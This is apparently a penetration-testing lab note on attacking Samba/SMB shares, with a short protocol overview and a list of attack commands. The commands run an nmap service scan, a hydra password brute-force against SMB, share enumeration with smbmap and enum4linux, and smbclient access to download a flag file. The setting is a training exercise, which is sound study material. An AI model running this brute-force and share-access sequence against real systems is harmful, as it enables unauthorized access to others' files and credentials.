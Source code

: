 #### Exploiting SAMBA
- SMB (Server Message Block) is a network file sharing protocol that is used to facilitate the sharing of files and peripherals between computers on local network
- SMB uses port 445.However,originally ,SMB ran on top of NetBIOS using port 139.
- Samba is the Linux implemetation of SMB,and allows Windows systems to access Linux shares and devices.
#### Process
- Samba utilize username and password authentication in order to obtain access to the server or a network share.

- We can perform a brute-force attack on the SAMBA server in order to obtain legitimate credentials.
- After obtaining legitimate credentials,we can use a utility called SMBMap in order to enumerate SAMBA share drives,list the content of the shares as well as downlaod files and execute remote commands on the target.

- We can also utilize a tool called smbclient.smbclient  is a client that is part of the SAMBA software suite.It communicates with LAN manager server.offering an interface similar to that of the ftp program.It can be used to downlaod files from the server to the local machine,upload files from the local machine to the server as well as retrive directory information from the server.

#### Exploit
- nmap -sV 192.56.47.3 [ this shows all services ]
- hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.56.47.3 smb [ brute force for passwords ]
- smbmap [ this command shows help menu ]
- smbmap -H 192.56.47.3 -u admin -p password1 [ this will show all the shares name with permissions ]
- smbclient [ this command shows help menu ]
- man smbclient [ user manual ]
- smbclient -L 192.56.47.3 -U admin [ this will show sharename ]
- smbclient //192.56.47.3/shawn -U admin [ for accessing  shawn shares using admin account using ]
- ? [ this will show all the options can be used in smbclient ]
- dir [ list all the directory ]
- get flag.txt [ this will downlaod file ]
- enum4linux [ show help menu ]
- enum4linux -a 192.56.47.3 [ this will enumerate all the information ]
- enum4linux -a -u admin -p password1 192.56.47.2 [ this enumerate all the information ]
-
#### Tools 
- smbmap
- smbclient
- enum4linux
